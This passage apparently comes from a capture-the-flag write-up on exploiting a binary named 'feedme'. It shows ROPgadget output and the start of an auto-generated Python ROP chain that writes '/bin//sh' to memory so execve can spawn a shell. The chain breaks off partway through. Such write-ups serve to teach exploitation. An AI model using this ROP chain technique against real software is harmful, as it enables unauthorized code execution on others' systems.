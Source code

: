 Once I thought I had a way to leak ESP, I tried to lookup ROP gadgets using R2.
This was the first time I ever used R2 for this, and it wasn't as easy as I
expected. Eventually I gave up and grabbed the amazing ROPgadget
[https://github.com/JonathanSalwan/ROPgadget]

```bash
/rop/ROPgadget/ROPgadget.py --binary feedme --ropchain
Gadgets information
============================================================
0x080e6e47 : aaa ; add dword ptr [edx], ecx ; ret
[snip]
Unique gadgets found: 13930

ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

	[+] Gadget found: 0x80551a2 mov dword ptr [edx], ecx ; ret
	[+] Gadget found: 0x806f34a pop edx ; ret
	[+] Gadget found: 0x806f371 pop ecx ; pop ebx ; ret
	[-] Can't find the 'xor ecx, ecx' gadget. Try with another 'mov [r], r'

	[+] Gadget found: 0x809a7ed mov dword ptr [edx], eax ; ret
	[+] Gadget found: 0x806f34a pop edx ; ret
	[+] Gadget found: 0x80bb496 pop eax ; ret
	[+] Gadget found: 0x8054a10 xor eax, eax ; ret

- Step 2 -- Init syscall number gadgets

	[+] Gadget found: 0x8054a10 xor eax, eax ; ret
	[+] Gadget found: 0x80497fe inc eax ; ret

- Step 3 -- Init syscall arguments gadgets

	[+] Gadget found: 0x80481c9 pop ebx ; ret
	[+] Gadget found: 0x806f371 pop ecx ; pop ebx ; ret
	[+] Gadget found: 0x806f34a pop edx ; ret

- Step 4 -- Syscall gadget

	[+] Gadget found: 0x8049761 int 0x80

- Step 5 -- Build the ROP chain

	#!/usr/bin/env python2
	# execve generated by ROPgadget
	from struct import pack

	# Padding goes here
	p = ''

	p += pack('<I', 0x0806f34a) # pop edx ; ret
	p += pack('<I', 0x080ea060) # @ .data
	p += pack('<I', 0x080bb496) # pop eax ; ret
	p += '/bin'
	p += pack('<I', 0x0809a7ed) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x0806f34a) # pop edx ; ret
	p += pack('<I', 0x080ea064) # @ .data + 4
	p += pack('<I', 0x080bb496) # pop eax ; ret
	p += '//sh'
	p += pack('<I', 0x0809a7ed) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x0806f34a) # pop edx ; ret
	p += pack('<I', 0x080ea068) # @ .data + 8
```